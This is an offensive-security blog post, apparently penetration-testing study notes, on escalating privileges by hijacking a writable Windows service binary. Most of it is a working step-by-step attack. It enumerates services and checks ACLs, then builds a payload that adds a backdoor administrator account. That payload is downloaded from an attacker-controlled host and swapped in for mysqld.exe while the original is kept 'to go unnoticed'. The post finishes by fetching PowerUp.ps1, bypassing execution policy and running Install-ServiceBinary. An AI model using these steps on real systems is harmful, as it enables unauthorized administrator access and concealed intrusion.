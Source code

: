 ```yaml
---
layout: post
title: Windows Service Binary Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "powerup"]
---
```


#### hijacking binary services

in some instances software services may be tied to binaries that are given open permisions - if the user has the ability to read and write then we can replace the binary with our own and restart the service or computer to allow it to execute in the context of the system user

### NOTE: when using a network logon like - WinRM or a bind shell these commands Get-CimInstance and Get-Service will not have permissions if the user does not have admin privs but RDP can get around this

to list the services with their corresponding path - if rdp to target

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

the result of this comman displays a couple services that are located in a non Windows system directory like \Xampp - this means that the developer would be responsible for managing the permissions of the binary application for the running service and they would be worth inspecting

to check permissions we can use icacls and Get-ACL

    $ icacls "C:\xampp\apache\bin\httpd.exe"

    user (RX)

    $ icacls "C:\xampp\mysql\bin\mysqld.exe"

    user (F)

the rx means the user can read and execute but we cannot write so we are unable to overwrite or replace the binary with ours - the F means we have full access to the binary

for this example we will create compile an executable that adds a user with the following commands

    i = system ("net user user2 password123! /add");
    i = system ("net localgroup administrators user2 /add");

### of course running as system we can do many things like edit existing users passwords to access their system

since we have access to the target machine we will copy the binary over

    PS > iwr -uri http://192.168.1.1/adduser.exe -Outfile adduser.exe

we backup the original service just in case we want to restore operation and go unnoticed

    PS > move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

and then copy our binary over

    PS > move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

finally we need to restart the service which can be achieved several ways if priveleges permit - but if we are running as a regular user /no sys then restart is our best bet

    PS > net stop mysql

    PS > Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

this cmd will tell us if the service has auto startup enabled

if this is the case we can reboot the machine if allowed

    PS > shutdown /r /t 0

once rebooted the malicious service should be running and we can check to see if our code has been executed

    PS > Get-LocalGroupMember administrators

#### PowerUp service hijacking

    $ cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

now let's use a powershell script to see if it can detect these binaries that can be replaced

    $ python3 -m http.server 80

    PS > iwr -uri http://192.168.1.1/PowerUp.ps1 -Outfile PowerUp.ps1

copying the script over

    PS > powershell -ep bypass

ep bypsass to execute the script

    PS > . .\PowerUp.ps1

    PS > Get-ModifiableServiceFile

this will identify writeable services - then we can even attempt to overwrite them with PowerUp

    PS > Install-ServiceBinary -Name 'mysql'

may need to stop service before executing Install-ServiceBinary - net stop service

### NOTE: this functionality of the script may fail so should be verified manually

